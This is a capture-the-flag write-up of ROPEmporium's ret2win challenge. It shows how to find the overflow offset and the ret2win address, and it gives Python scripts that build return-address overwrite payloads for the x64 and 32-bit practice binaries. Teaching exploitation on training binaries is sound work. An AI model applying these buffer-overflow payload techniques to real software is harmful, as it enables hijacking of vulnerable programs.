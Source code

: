 ```yaml
---
title: "ret2win | ROPEmporium [1]"
date: 2024-11-11T11:41:24+05:00
tldr: ROPEmporium - 1, ret2win task writeup
toc: true
summary: "One common introductory ROP challenge is known as **ret2win**. The goal is to call a specific function in the program called `ret2win`, which prints a success message and reveal a flag.txt"
tags: [writeup, ROPEmporium, ROP, chain, exploitation]
---
```



# ret2win

One common introductory ROP challenge is known as **ret2win**. The goal is to call a specific function in the program called `ret2win`, which prints a success message and reveal a flag.txt

In the example code below, we’ll find out the first the offset of buffer overflow, and then `ret2win` function's address in the binary. The task is to overwrite the program’s return address with `ret2win` address, causing the program to execute `ret2win`.

Buffer

![image.png](image.png)

## x64 - ret2win

1. To find out offset first we will generate cyclic pattern with 100 bytes

![image.png](image1.png)

run the binary and put your generated cyclic payload into buffer, it overflows and responses with `SIGSEGV` 

in that moment we go and check in which offset buffer ends and moves to registers RBP and to Return Address

![image.png](image2.png)

This shows that to overwrite RBP, we need an offset of only 32 bytes, and to overwrite the saved RIP (or return address), we need an offset of 40 bytes.

1. We can find the address of  `ret2win`  using the command `objdump -M intel -D ./binary | grep ret2win` 

![image.png](image3.png)

## x64 - Payload

```python
import struct

# Address of ret2win function (replace with the correct one from your binary)
ret2win_address = 0x0000000000400756  # Example, use your binary's actual address

# Buffer overflow offset (found during the analysis, e.g., with gdb)
offset = 40  # Example, adjust as needed
ret    = 0x40053e
# Construct the payload
payload = b'A' * offset  # Filler to overflow the buffer
payload += struct.pack("<Q", ret) 
payload += struct.pack("<Q", ret2win_address)  # Address of ret2win
# Send the payload to the program
print(payload)
with open("payload", "wb") as f:
    f.write(payload)

print(f"Payload written to file. Length: {len(payload)} bytes")
```

## x64 - Result 

![image.png](image4.png)

- ## Note
    `struct.pack("<Q", 0xdeadbeefdeadbeef)` converts the hexadecimal value into a binary representation using little-endian byte order.
    
    `<Q`  - For 64-bit little-endian
    
    `<I`  - For 32-bit little-endian
    And you might wonder why we place the `ret` instruction before calling the function itself. This is to ensure stack alignment, which is one of the common pitfalls in x64 ROP exploitation.
    
    **The MOVAPS issue**
    If you're segfaulting on a movaps instruction in `buffered_vfprintf()` or `do_system()` in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as `printf()` or `system()`. Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction. (Source: [https://ropemporium.com/guide.html](https://ropemporium.com/guide.html))
    

## x86-32 - ret2win32

We will determine the offset required for overflowing the stack and then place our entire payload there, just as we did with an `ret2win`.

![image.png](image5.png)

![image.png](image6.png)

## x86-32 - Payload

```livescript
import struct

# Address of the ret2win function (replace with the correct address from your 32-bit binary)
ret2win_address = 0x0804862c  # Example 32-bit address, replace with actual

# Offset to overwrite the return address (determined from buffer overflow analysis)
offset = 44  # Adjust this based on your analysis

# Construct the payload
payload = b'A' * offset            # Padding to overflow the buffer
payload += struct.pack("<I", ret2win_address)  # Address of ret2win (32-bit address)

# Write the payload to a file or send it to the binary
with open("payload", "wb") as f:
    f.write(payload)

print(f"Payload length: {len(payload)} bytes")
```

 If you’re not using GDB with GEF, try reversing the binary and calculating the offset; this is often easier to accomplish with IDA.

## x86-32 - Result

![image.png](image7.png)
